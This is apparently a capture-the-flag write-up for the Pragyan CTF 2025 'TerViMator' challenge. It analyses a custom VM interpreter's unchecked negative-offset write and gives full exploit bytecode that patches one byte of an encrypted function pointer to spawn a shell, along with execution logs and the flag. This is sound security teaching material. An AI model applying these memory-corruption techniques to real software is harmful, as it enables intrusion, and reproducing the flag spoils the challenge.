

# TerViMator - PWN Challenge Writeup

**Category:** PWN
**Challenge:** TerViMator
**CTF:** Pragyan CTF 2025
**Remote:**  `ncat --ssl tervimator.ctf.prgy.in 1337`

**Flag:** `p_ctf{tErVIm4TOrT-1000ha$BE3nd3feaT3D}`

## Challenge Description

*"Skynet is rising. Can you defeat this early version of the T-1000s mainframe before it becomes unstoppable?"*

The challenge provides a binary implementing a custom VM bytecode interpreter with encrypted function pointers and a permission model.

## Files

- `chal` - 64-bit PIE executable (18576 bytes)
- `exploit_aslr.py` - Final working exploit (ASLR-aware, LOCAL/REMOTE/GDB)
- `NOTES.md` - Detailed reverse engineering notes
- `WRITEUP.md` - This writeup

---

## Binary Analysis

### Initial Reconnaissance

```bash
$ file chal
chal: ELF 64-bit LSB pie executable, x86-64, dynamically linked, stripped

$ checksec --file=chal
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
SHSTK:    Enabled
IBT:      Enabled
```

### VM Architecture

The binary reads up to 0x1000 bytes of bytecode via `read(0, buf, 0x1000)`, then executes it in a custom VM with 7 opcodes and 10 syscalls.

#### Opcodes (0-6)

| Opcode | Name | Format | Description |
|--------|------|--------|-------------|
| 0 | EXIT | `\x00` | Terminate VM |
| 1 | SET_REG | `\x01` + u8(reg) + u32(val) | `reg[index] = value` |
| 2 | COPY_REG | `\x02` + u8 + u8 | `reg[b1] = reg[b2]` |
| 3 | ADD | `\x03` + u8 + u8 | `reg[b1] += reg[b2]` |
| 4 | SUB | `\x04` + u8 + u8 | `reg[b1] -= reg[b2]` |
| 5 | XOR | `\x05` + u8 + u8 | `reg[b1] ^= reg[b2]` |
| 6 | SYSCALL | `\x06` | Execute syscall# from reg[0] |

#### Syscalls (reg[0] = syscall number)

| # | Function | Params | Description |
|---|----------|--------|-------------|
| 1 | alloc_data | reg[1]=size | Create writable object (perms=0x03, flags=0x01) |
| 2 | create_complex | reg[1]=task | Create exec object with encrypted function ptr (perms=0x04, flags=0x02) |
| 3 | GC | | Garbage collector |
| 4 | split | reg[1]=obj_id | Decrement refcount |
| 5 | name/read | reg[1]=obj_id | Read from stdin into object structure |
| 6 | write_byte | reg[1]=obj_id, reg[2]=offset, reg[3]=value | Write byte to object data |
| 7 | read_byte | reg[1]=obj_id, reg[2]=offset | Read byte from object, prints value |
| 8 | call_function | reg[1]=obj_id | Decrypt and call function pointer |
| 9 | dup | reg[1]=obj_id | Increment refcount |

### Object Structure (0x18 bytes each, array at 0x5040)

```
Offset | Size | Field
-------|------|----------------
+0x00  | 8B   | Reserved
+0x08  | 1B   | perms (bit 1=read, bit 2=write, bit 3=execute)
+0x09  | 1B   | flags (must be 0x02 for call_function)
+0x0a  | 1B   | type/refcount
+0x0c  | 4B   | size
+0x10  | 8B   | data pointer / encrypted function pointer
```

### XOR Encryption

Syscall 8 decrypts the function pointer before calling:

```
encrypted_ptr = obj[0x10]
XOR_KEY = 0x1a5bfe810dce5825
real_ptr = encrypted_ptr ^ XOR_KEY
call real_ptr
```

Syscall 2 encrypts using the same key when creating exec objects.

### Win Function (escalation) at offset 0x129d

```c
void escalation() {
    puts("CRITICAL: PRIVILEGE ESCALATION.");
    system("/bin/sh");
    exit(0);
}
```

Default function (ping) at offset 0x1283:
```c
void ping() {
    puts(" Ping! System Secure.");
}
```

---

## Vulnerability: Negative Offset in write_byte + Single-Byte Pointer Modification

### Bug 1: write_byte sign-extension (no bounds check)

In syscall 6 (write_byte) at `0x1b7a`:

```asm
0x1c0a: mov eax, [0x51c8]     ; offset from reg[2] (32-bit)
0x1c0d: movsxd rdx, eax       ; sign-extend to 64-bit!
0x1c14: add rax, rdx           ; base + offset (can be negative!)
0x1c1a: mov byte [rax], dl     ; WRITE - NO BOUNDS CHECK
```

Write address: `0x5040 + obj_id*0x18 + 0x10 + sign_extend(offset)`

No bounds checking means we can write **backwards** into other objects' metadata.

### Bug 2: PIE page alignment enables single-byte pointer patching

PIE base is always page-aligned (low 12 bits = 0). Since `ping` (0x1283) and `escalation` (0x129d) only differ in the lowest byte, their encrypted pointers also differ only in byte 0:

```
encrypted_ping[0]       = 0x83 ^ 0x25 = 0xa6
encrypted_escalation[0] = 0x9d ^ 0x25 = 0xb8
```

This works regardless of ASLR because the upper bytes depend only on the PIE base and the identical upper nibble (0x12).

---

## Exploit Strategy

Instead of hardcoding a pointer (which breaks with ASLR), we:

1. **Create exec object** (syscall 2, task=0) → obj 0 with encrypted pointer to `ping`
2. **Create data object** (syscall 1) → obj 1 (writable, perms=0x03)
3. **Modify byte 0** of obj 0's encrypted pointer using write_byte from obj 1 with negative offset
   - write_byte base for obj 1: `0x5068`
   - Target (obj 0's func ptr byte 0): `0x5050`
   - Offset: `0x5050 - 0x5068 = -0x18 = 0xFFFFFFE8`
   - Value: `0xb8` (encrypted escalation byte 0)
4. **Execute obj 0** (syscall 8) → decrypts to `PIE_base + 0x129d` → `system("/bin/sh")`

Only 64 bytes of bytecode needed.

---

## Bytecode Construction

```python
bc = b''
# Step 1: Create exec object (syscall 2, task=0) → obj 0
bc += p8(1) + p8(0) + p32(2)      # SET_REG(0, 2)
bc += p8(1) + p8(1) + p32(0)      # SET_REG(1, 0) - task=0 → ping
bc += p8(6)                        # SYSCALL

# Step 2: Create data object (syscall 1) → obj 1
bc += p8(1) + p8(0) + p32(1)      # SET_REG(0, 1)
bc += p8(1) + p8(1) + p32(0x100)  # SET_REG(1, 0x100)
bc += p8(6)                        # SYSCALL

# Step 3: Modify byte 0 of obj 0's encrypted pointer
bc += p8(1) + p8(0) + p32(6)              # SET_REG(0, 6) - write_byte
bc += p8(1) + p8(1) + p32(1)              # SET_REG(1, 1) - obj_id=1
bc += p8(1) + p8(2) + p32(0xFFFFFFE8)     # SET_REG(2, -0x18)
bc += p8(1) + p8(3) + p32(0xb8)           # SET_REG(3, 0xb8)
bc += p8(6)                                # SYSCALL

# Step 4: Execute → escalation → system("/bin/sh")
bc += p8(1) + p8(0) + p32(8)      # SET_REG(0, 8)
bc += p8(1) + p8(1) + p32(0)      # SET_REG(1, 0) - obj_id=0
bc += p8(6)                        # SYSCALL
```

---

## Execution

### Local (ASLR enabled)

```bash
$ python3 exploit_aslr.py
Executing...
alloc_exec(task=0) -> ID 0
alloc_data(256) -> ID 1
Executing Task 0x58e3258ff29d...
CRITICAL: PRIVILEGE ESCALATION.
$ id
uid=0(root) gid=0(root) groups=0(root)
```

### Remote

```bash
$ python3 exploit_aslr.py REMOTE
Executing...
alloc_exec(task=0) -> ID 0
alloc_data(256) -> ID 1
Executing Task 0x57103a20029d...
CRITICAL: PRIVILEGE ESCALATION.
$ id
uid=1000 gid=1000 groups=1000
$ cat flag.txt
p_ctf{tErVIm4TOrT-1000ha$BE3nd3feaT3D}
```

Note: Different PIE base each run (0x58e3258ff000 local vs 0x57103a200000 remote) but exploit works every time.

---

## Key Lessons Learned

1. **Sign Extension = Arbitrary Write:** `movsxd` on user-controlled offsets without bounds checking enables writing backwards into adjacent structures. Always validate offset bounds.

2. **Single-Byte Pointer Patching:** When two functions share the same page offset upper nibble (both at 0x12XX), you only need to change one encrypted byte to redirect execution. PIE page alignment guarantees the upper bytes stay the same.

3. **Cross-Object Write Primitive:** The negative offset vulnerability turns into a cross-object write by using one writable object's write_byte to modify another object's metadata/pointer.

4. **XOR Encryption is Deterministic:** Static XOR key means if you know the encrypted value of one function, you can compute the encrypted value of any other function in the same page.

5. **Two Approaches to VM Exploitation:**
   - **Approach 1 (ASLR-unaware):** Create writable object, modify its own permissions and write a hardcoded pointer. Works without ASLR only.
   - **Approach 2 (ASLR-aware):** Create exec object with known encrypted pointer, then patch one byte using a second writable object. Works with full ASLR.

---

## Statistics

- **Bytecode Size:** 64 bytes (ASLR-aware exploit)
- **Key Vulnerability:** Negative offset in write_byte (sign extension + no bounds check)
- **ASLR Bypass:** Single-byte pointer modification exploiting page alignment

---

## PoC

### Exploit Execution



*Screenshot showing successful execution of the VM exploit with single-byte pointer patching and flag capture.*

---

**Date:** 2026-02-07
